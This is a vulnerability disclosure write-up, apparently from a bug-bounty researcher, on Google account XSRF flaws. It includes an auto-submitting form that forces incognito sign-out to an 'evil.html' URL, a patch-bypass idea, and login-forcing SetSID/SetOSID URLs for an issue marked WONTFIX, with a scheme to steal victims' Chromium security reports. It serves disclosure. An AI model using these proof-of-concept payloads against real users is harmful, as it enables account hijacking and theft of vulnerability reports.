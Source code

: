 ```yaml
---
title: Google Accounts/GAIA XSRF
---
```


# Go Incognito XSRF (Fixed, Awarded $3000)

`SignOutOptions` has a feature where it will open an Android incognito window to a custom URL that does not inherit the sandbox or close the file picker dialog (spoof)

```js
Frame = document.createElement('iframe');
Frame.sandbox = 'allow-popups allow-forms allow-scripts';
```

```html
<form
  action="https://accounts.google.com/SignOutOptions?continue=https://www.google.com/amp/a/s/ndev.tk/evil.html"
  method="post"
>
  <input type="submit" name="incognito" value="1" />
</form>
<script>
  document.querySelector('input').click();
</script>
```

- [sandbox escape video](https://www.youtube.com/watch?v=Cu_8SCU2RE4)

The first patch used `google_util::IsGoogleAssociatedDomainUrl` thats bypassable since Google hosts user generated content on `gstatic.com` (via XSS), `storage.googleapis.com` (Storage buckets) and `googleusercontent.com` (`ip.bc.googleusercontent.com`), I did not verify if insecure `http://` pages work.

# Login XSRF (WONTFIX/INFEASIBLE)

Both issue trackers don't verify if the victim initiated the login which allows the attacker to force a login to their account, No `document.cookie =` needed :)  
<https://issues.chromium.org/accounts/SetOSID> (Via: `https://accounts.google.com/ServiceLogin?osid=1&continue=https%3A%2F%2Fissues.chromium.org`)  
<https://bugs.chromium.org/_ah/conflogin?state=> (Via: `https://uc.appengine.google.com/_ah/conflogin?state=`)  
Some more examples...

- `https://accounts.googlesource.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://chromium.googlesource.com/login/angle/?pli%3D1%26authuser%3D1`
- `https://accounts.blogger.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://www.blogger.com/home?pli%3D1%26authuser%3D1`
- `https://flash.android.com/accounts/SetOSID?authuser=0&continue=https://flash.android.com/?pli%3D1%26authuser%3D0&osidt=<Token>`

Worth mentioning since the token is not connected to a session, browser extensions with the Tabs permission but no host permission gain account takeover; it's a feature.

Once the victim is on the attackers account any security issues reported via the standard <https://bugs.chromium.org/p/chromium/issues/wizard> page (ideally bookmarked) will be sent to the attackers email and if all goes well there be able to steal that 0day and get the reward (very unlikely) from Chromium VRP!

They are aware of the fact that login XSRF is possible in some cases. Unfortunately, they don’t have a clear plan to fix it at this time.

